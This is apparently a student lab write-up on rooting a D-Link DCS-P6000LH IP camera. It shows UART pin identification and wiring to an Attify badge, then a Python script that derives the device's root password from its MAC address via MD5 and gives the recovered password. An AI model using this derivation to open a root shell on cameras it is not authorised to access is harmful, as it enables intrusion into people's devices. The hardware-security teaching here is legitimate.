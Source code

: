 # Exploiting IP Camera
## Step - Finding and Connecting to the UART port
Since we are exploiting this camera through its UART port, the first step is to actually find it. One way of doing it is to search up schemes and any information
about the location of the port for the specific product, or to search for groups of 3 or 4 pins since these are good candidates for UART ports. UART have the following 
pins:
- Transmit(Tx)
- Recieve(Rx)
- Ground(GND)
- Power(Vcc)
One can use a multimeter to find which pin is which.
![IP camera Connected to breadboard](./Images/cameraUART.jpeg)
For our camera, the right most pin is the ground, the next adjacent pin is the transmit pin and the left pin is the recieve pin. Thus in our case black wire is ground,
green is transmit and white recieve.
![Connections to the breadboard](./Images/breadboard.jpeg)
Image provided for follow along purposes since we connected our camera to a breadboard and the breadboard to the Attify badge.
![Connections to the badge](./Images/badge.jpeg)
As you can see written in the badge, pin D0 is for transmit, D1 is for recieve, and pin GND is for ground. Once the pins are connected to the badge, you connect the 
badge to your ocmputer using the proveded micro USB to USB connector provided. 
## Step - Finding the Root Password for the IP Camera  
Once we had access to the device, and we accessed the camera's terminal via the minicom tool provided for us, we needed to enter the root password. In order 
to do this, we had to use the following Python script:  
```
# dcsp6000lh-rootpw.py
# Calculates the root password for Dlink DCS-P6000LH IP cam
 
import hashlib
 
# MAC address of the IP cam (in upper case)
mac = "B0:C5:54:40:0D:13"

# Default empty string
factorypwd = ""
 
buf = f"{factorypwd}+{mac}\n"
 
hsh = hashlib.md5(buf.encode('ascii')).hexdigest()
 
rootpw = f"{hsh[0]}{hsh[1]}{hsh[2]}{hsh[27]}{hsh[28]}{hsh[29]}{hsh[30]}{hsh[31]}"
print(f"root:{rootpw}")
```  
For this script to run, we needed to have the MAC address of the IP camera, which was recovered from the camera's packaging. The next few lines of code
manipulate the string generated from the ```md5``` and ```encoding``` functions to gather the necessary data for the root password. Finally, after all the
processes were done, the script prints the IP camera's root password. Once we had the password, which in our case was ```555718df```, we had to enter it 
into the password prompt of the camera's terminal. This enabled us to complete the final step of the lab and establish a root shell on the device via UART.

